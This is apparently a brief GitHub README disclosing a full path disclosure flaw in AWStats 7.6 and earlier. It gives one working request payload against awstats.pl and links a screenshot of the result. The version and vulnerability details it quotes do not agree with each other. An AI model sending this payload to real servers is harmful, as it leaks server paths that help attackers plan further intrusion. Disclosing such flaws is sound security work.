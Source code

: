 # AWStatsFullPathDisclosure
Full Path Disclosure at AWStats 7.6 or minor versions

Directory traversal vulnerability in AWStats before 7.0 allows remote attackers to have an unspecified impact via a crafted LoadPlugin directory.	

PAYLOAD: awstats.pl?framename=mainright&update=123123123123

RESULT:

![alt text](https://github.com/theyiyibest/AWStatsFullPathDisclosure/blob/master/FPD.JPG)

